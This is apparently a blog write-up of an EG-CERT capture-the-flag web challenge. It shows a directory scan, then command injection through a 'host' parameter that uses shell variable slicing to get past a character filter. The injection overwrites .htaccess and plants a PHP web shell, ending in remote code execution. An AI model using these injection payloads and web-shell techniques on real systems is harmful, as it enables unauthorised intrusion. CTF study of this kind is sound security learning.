 ```yaml
---
layout: post
title:  "EG CERT - lookup"
description: That was amazing challenge from EG-CERT.
tags: eg-cert websec
img: "/images/WebCTF/eg-cert/banner.jpg"
---
```


# Lookup

> Directory scan

```shell
root@kali:~# dirb http://167.172.236.59/l00kup

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Sun Nov 17 15:07:31 2019
URL_BASE: http://167.172.236.59/l00kup/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4614                                                          

---- Scanning URL: http://167.172.236.59/l00kup/ ----
+ http://167.172.236.59/l00kup/index.php.bak (CODE:200|SIZE:2844)                                                                                                                                            
+ http://167.172.236.59/l00kup/index.php~ (CODE:200|SIZE:2844)                                                                                                                                               
+ http://167.172.236.59/l00kup/index.php (CODE:200|SIZE:2077)                                                                                                                                                
+ http://167.172.236.59/l00kup/robots.txt (CODE:200|SIZE:39)                                                                                                                                                 
==> DIRECTORY: http://167.172.236.59/l00kup/tmp/                                                                                                                                                             
                                                                                                                                                                                                             
---- Entering directory: http://167.172.236.59/l00kup/tmp/ ----
+ http://167.172.236.59/l00kup/tmp/index.php (CODE:200|SIZE:5)                                                                                                                                               
                                                                                                                                                                                                             
-----------------
END_TIME: Sun Nov 17 15:33:45 2019
DOWNLOADED: 9228 - FOUND: 5
root@kali:~# 

```

If we went in index.php.bak we will get the source code and will get the filter part   
And if we went to robots.txt we will get env_test.php 

> RCE  

I have seen echo in the bak file so i will try to bypass it  

> request  

```r
GET /l00kup/index.php?host=${PWD} HTTP/1.1
Host: 167.172.236.59
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:70.0) Gecko/20100101 Firefox/70.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: ar,en-US;q=0.7,en;q=0.3
Accept-Encoding: gzip, deflate
Referer: http://167.172.236.59/l00kup/
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
```
> response  

```r
Hi <b>MY PUB IP THERE</b>!<br>Looking up ${PWD}<br>Server:		127.0.0.53
Address:	127.0.0.53#53

** server can't find /var/www/html/l00kup: NXDOMAI
```

and it's works tha's awesome but wait thats gived me the output from `env_test.php`  
Hmm it's storage our md5(ip) in `tmp/users_data` so let's try to jmp it but i have one problem  
```r
%2F is filtered
%2F = /
```
So i will try to extract it from `${PWD}` How can i do that ?? let's see  

> request  

```r
GET /l00kup/index.php?host=${PWD:8:1} HTTP/1.1
```

> response  

```r
** server can't find /: NXDOMAIN
```


I got it ;D That's looks easy  

let's try to jmp to `tmp/users_data/md5(IP)/`

> request

```r
GET /l00kup/index.php?host=tmp${PWD:8:1}users_data${PWD:8:1}MY-Pub-IP-THERE HTTP/1.1
```

> response

```r
** server can't find tmp/users_data/MY-Pub-IP-THERE: NXDOMAIN
```

Yes we did it so i will try to `echo '' > tmp/users_data/MY-Pub-IP-THERE/.htaccess` So let's see how can i do this shit :D  

> request

```r
GET /l00kup/index.php?host="">tmp${PWD:8:1}users_data${PWD:8:1}MY-Pub-IP-THERE${PWD:8:1}.htaccess HTTP/1.1
```

> response

```r
"">tmp${PWD:8:1}users_data${PWD:8:1}MY-Pub-IP-THERE${PWD:8:1}.htaccess<br>
```

Why i did that ?  

Becuase if we still have our data in htaccess we can't see any file there in this case  

Now the time to write reverse shell but we have one problem when we try to create our payload its says `Hacking Attempt!` because i user `<?` and it's in `$myfilter`  

```r
$myfilter='\\|\;|\||\?\>|\<\?|\&|\`|\'|\;|\/|\)|\(|\-|\n';
```

So with luck i got APIKEY in env_test.php and there is `<` So let's call it like we did in `/`  

```r
/ = ${PWD:8:1}
< = ${APIKEY:0:1}
> = ${APIKEY:25:1}
( = ${Licenseid:18:1}
) = ${Licenseid:35:1}
```

And i will try to create 0xdiablos.php file and i will put `<?php system($_GET['cmd']); ?>` So how can i do it let's see  

> request

```r
GET /l00kup/index.php?host="${APIKEY%3a0%3a1}%3fphp+system${Licenseid%3a18%3a1}id${Licenseid%3a35%3a1}%3f${APIKEY%3a25%3a1}">tmp${PWD%3a8%3a1}users_data${PWD%3a8%3a1}MY-Pub-IP-THERE${PWD%3a8%3a1}0xdiablos.php HTTP/1.1
```

> response
```r
Looking up "${APIKEY:0:1}?php system${Licenseid:18:1}id${Licenseid:35:1}?${APIKEY:25:1}">tmp${PWD:8:1}users_data${PWD:8:1}MY-PUB-IP-THERE${PWD:8:1}0xdiablos.php<br>
```

and boom i got full rce 

![image](/images/WebCTF/eg-cert/rce.png)


---

I hope u enjoyed with this writeup. You can follow me on the twitter [@Mrx-Exploit](https://twitter.com/MRX_Exploit)
